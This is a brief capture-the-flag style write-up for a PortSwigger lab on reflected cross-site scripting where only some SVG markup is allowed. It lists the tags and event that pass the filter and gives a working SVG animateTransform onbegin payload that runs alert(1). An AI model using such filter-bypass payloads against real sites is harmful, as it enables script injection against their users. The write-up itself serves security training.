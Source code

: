 ## Lab: Reflected XSS with some SVG markup allowed (https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)
### Solution html code
```html
<svg><image><animateTransform onbegin=alert(1) /></image></svg>
```
### Process: we followed the same process in (https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) to search for allowed tags and events
### Step #1: we found 4 tags allowed
1. animatetransform
2. image
3. svg
4. title
### Step #2: we found 1 event allowed
1. onbegin
### Step #3: when consulting the below documentation for both the `animatetransform` tag and the `onbegin` event:
- https://developer.mozilla.org/en-US/docs/Web/SVG/Element/animateTransform
- https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event

### We found that we can creat the svg.image.animatetransform structure to trigger javascript execution
```html
<svg><image><animateTransform onbegin=alert(1) /></image></svg>
```